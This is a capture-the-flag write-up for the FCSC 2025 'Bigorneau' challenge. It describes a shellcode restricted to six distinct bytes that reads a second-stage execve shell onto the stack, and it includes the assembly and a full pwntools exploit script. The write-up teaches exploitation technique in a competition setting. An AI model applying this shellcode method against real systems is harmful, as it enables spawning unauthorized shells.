 +++
title = "FCSC 2025 | Bigorneau"
+++


## Checksecs
```
[*] '/home/botman/Documents/challenges/FCSC/bigorneau/bigorneau'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

## TL;DR
Constraints: 6 different bytes

Solution:
- Simple read shellcode into the stack
- Use only push/pop instructions to fill `rsi`/`rdx`
- Fill `rdx` using bytes already present in the shellcode

## Writeup

This challenge was fairly easy. The only constraint for our shellcode was to use **only 6 different bytes**. Instead of using a classical `execve` shellcode, I developed a simple shellcode with a `read` syscall that allowed me to write onto the stack and then execute the real `execve` shellcode.

I started with a "normal" shellcode, which looked like this:
```asm
push rsp
mov rsi, rsp
mov rdx, shellcode_len
syscall
```

> <span style="color:#316dca">**ⓘ NOTES**</span>
>
> As you can see, I only set `rsi` and `rdx`, as `rax` was already `0x0` ([read syscall](https://x64.syscall.sh/)) thanks to the preface added by `bigorneau.py`.

Since the objective was to use as few different bytes as possible, I removed all the `mov` instructions (which have large opcodes) and replaced them with `push`/`pop` instructions:
```asm
push rsp
push rsp
pop rsi
push shellcode_len
pop rdx
syscall
```

<div style="page-break-after: always;"></div>

At this point, it was almost done. The only problem was the `shellcode_len` value. I replaced it with values already present in the shellcode to avoid introducing new bytes, obtaining:
```asm
push rsp
push rsp
pop rsi
push 0x0f050f05
pop rdx
syscall
```

> <span style="color:#316dca">**ⓘ NOTES**</span>
>
> If I had pushed `0x100` onto the stack, the shellcode would have looked like `0x54545e68000100005a0f05`, introducing two extra bytes `0x0` and `0x1`. By reusing the existing `0xf` and `0x5` bytes, I wrote `push 0x0f050f05`, resulting in the shellcode `0x54545e68050f050f5a0f05`.

Finally, I wrote a small script to send the first-stage shellcode followed by the real `execve` shellcode with a little padding to reach `rip` and boom, pwned:

```python
from pwn import *

CHALL = "bigorneau.py"

def exploit(io, elf):
    context.update(arch='x86_64')
    shellcode = '''
    push rsp
    push rsp
    pop rsi
    push 0x0f050f05
    pop rdx
    syscall
    '''
    shellcode = bytes(asm(shellcode))

    io.info('shellcode: ' + hex(int.from_bytes(shellcode)))
    io.info('set: %s : %i' % (', '.join([hex(i) for i in set(shellcode)]), len(set(shellcode))))

    io.sendlineafter(b':\n', hex(int.from_bytes(shellcode))[2:].encode())
    io.sendline(b'A'*104 + bytes(asm(shellcraft.sh())))
    io.sendline(b'cat flag.txt')
    flag = io.recvline().decode()
    return flag
```

[download here](/exploits/bigorneau.py)

**Written by *0xB0tm4n***

